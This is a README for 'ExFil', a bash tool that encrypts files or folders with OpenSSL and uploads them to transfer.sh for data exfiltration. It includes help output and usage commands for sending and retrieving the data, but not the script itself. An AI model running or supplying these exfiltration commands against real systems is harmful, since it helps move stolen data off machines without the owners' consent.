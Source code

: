 # ExFil

Simple bash script to exfil data within a web service and OpenSSL or GPG.

## Inspirations

This project is based on the amazing work made by the [THC](https://thc.org/) group and their awesome [tips and tricks](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet) page.

## Config

Edit the script to set/change the defined web service.

> This feature will be implemented soon.

Here are the default options:

* Encryption: [AES-256-CBC](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_block_chaining_(CBC))
* Web Service: [transfer.sh](https://transfer.sh/)

## Usage

```console
$ ./exfil.sh -h

Usage: exfil.sh <file|folder> - Encrypt and send file or folder to 'transfer.sh'.

Arguments:
  -h | --help            Print this help message
  -s | --send            Encrypt and send file or folder to 'transfer.sh' (default)
  -d | --download        Download and decrypt file from 'transfer.sh'

Examples:
  * exfil.sh <file|folder>
  * exfil.sh -s <file|folder>
  * exfil.sh -d <url>

```

## Roadmap

* [X] Initial release
* [X] Folder support
* [X] `curl` / `wget` support
* [X] `openssl` support
* [ ] `gpg` support
* [ ] `tor` support

## Author

* __Jiab77__